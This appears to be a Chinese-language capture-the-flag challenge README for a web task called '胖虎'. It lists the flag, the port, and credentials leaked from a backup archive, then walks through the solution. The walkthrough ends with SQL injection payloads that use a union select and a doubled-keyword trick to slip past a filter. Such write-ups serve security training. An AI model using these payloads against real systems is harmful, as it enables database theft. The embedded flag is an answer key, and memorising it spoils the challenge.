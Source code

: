 # 题目：胖虎

### 题目描述：胖虎，冈田武

### 题目难度： 🌟🌟🌟🌟🌟

### 维护：le31ei

### KEY: `flag{327a6c4304ad5938eaf0efb6cc3e53dc}`

### 配置信息： 
1. 开放端口： `8080`

### 解题过程：

1. 根目录下有个压缩包：`www.zip`，里面能收集到信息：`panghu`， `gangtianwu666`。
2. 扫描目录，后台登录口为：`admin_login.php`
3. 在提交作业解密的上传work文档存在二次注入。
4. 最后的payload为：

>`提交文件名：web' and 1=2 union select flag from flag where '.doc'='.doc`

>`查询：web' and 1=2 ununionion seselectlect flag from flag where '.doc'='.doc`

